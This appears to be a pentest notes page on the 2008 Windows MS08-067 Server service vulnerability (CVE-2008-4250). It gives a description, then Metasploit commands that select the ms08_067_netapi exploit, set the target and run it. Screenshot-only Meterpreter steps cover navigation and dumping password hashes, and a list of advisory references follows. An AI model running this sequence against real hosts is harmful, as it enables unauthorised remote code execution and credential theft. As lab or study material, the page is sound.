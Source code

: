 # Remote Code Execution - ms08\_067

## CVE-2008-4250

### Description

The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2, Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary code via a crafted RPC request that triggers the overflow during path canonicalization, as exploited in the wild by Gimmiv.A in October 2008, aka "Server Service Vulnerability."

## Using gunzip and Hydra

#### Gunzip

![](/assets/import.png)

#### Hydra

![](/assets/import2.png)

## Using Metasploit

![](/assets/Search_ms08_067.png)

```
msf > use exploit/windows/smb/ms08_067_netapi
```

```
msf > show options
```

```
msf > set RHOST <Target IP Address>
```

![](/assets/ms08_exploit.png)

```
msf > exploit
```

#### Meterpreter - Navigating

## ![](/assets/Nav1.png)

![](/assets/nav2.png)

![](/assets/nav3.png)

![](/assets/nav4.png)

#### Meterpreter - Hash the File

![](/assets/ms08_067_HashFile.png)



---

## References

* BUGTRAQ:20081026 Windows RPC MS08-067 FAQ document released
* [URL:http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497808/100/0/threaded)

* BUGTRAQ:20081027 Windows RPC MS08-067 FAQ document updated

* [URL:http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded](http://www.securityfocus.com/archive/1/archive/1/497816/100/0/threaded)
* EXPLOIT-DB:6824
* [URL:https://www.exploit-db.com/exploits/6824](https://www.exploit-db.com/exploits/6824)
* EXPLOIT-DB:6841
* [URL:https://www.exploit-db.com/exploits/6841](https://www.exploit-db.com/exploits/6841)
* EXPLOIT-DB:7104
* [URL:https://www.exploit-db.com/exploits/7104](https://www.exploit-db.com/exploits/7104)
* EXPLOIT-DB:7132
* [URL:https://www.exploit-db.com/exploits/7132](https://www.exploit-db.com/exploits/7132)
* [MISC:http://blogs.securiteam.com/index.php/archives/1150](http://blogs.securiteam.com/index.php/archives/1150)
* HP:HPSBST02386
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* HP:SSRT080164
* [URL:http://marc.info/?l=bugtraq&m=122703006921213&w=2](http://marc.info/?l=bugtraq&m=122703006921213&w=2)
* MS:MS08-067
* [URL:http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx](http://www.microsoft.com/technet/security/Bulletin/ms08-067.mspx)
* CERT:TA08-297A
* [URL:http://www.us-cert.gov/cas/techalerts/TA08-297A.html](http://www.us-cert.gov/cas/techalerts/TA08-297A.html)
* CERT:TA09-088A
* [URL:http://www.us-cert.gov/cas/techalerts/TA09-088A.html](http://www.us-cert.gov/cas/techalerts/TA09-088A.html)
* CERT-VN:VU\#827267
* [URL:http://www.kb.cert.org/vuls/id/827267](http://www.kb.cert.org/vuls/id/827267)
* BID:31874
* [URL:http://www.securityfocus.com/bid/31874](http://www.securityfocus.com/bid/31874)
* OVAL:oval:org.mitre.oval:def:6093
* [URL:https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093](https://oval.cisecurity.org/repository/search/definition/oval%3Aorg.mitre.oval%3Adef%3A6093)
* SECTRACK:1021091
* [URL:http://www.securitytracker.com/id?1021091](http://www.securitytracker.com/id?1021091)
* VUPEN:ADV-2008-2902
* [URL:http://www.vupen.com/english/advisories/2008/2902](http://www.vupen.com/english/advisories/2008/2902)
* SECUNIA:32326
* [URL:http://secunia.com/advisories/32326](http://secunia.com/advisories/32326)
* XF:win-server-rpc-code-execution\(46040\)
* [URL:https://exchange.xforce.ibmcloud.com/vulnerabilities/46040](https://exchange.xforce.ibmcloud.com/vulnerabilities/46040)



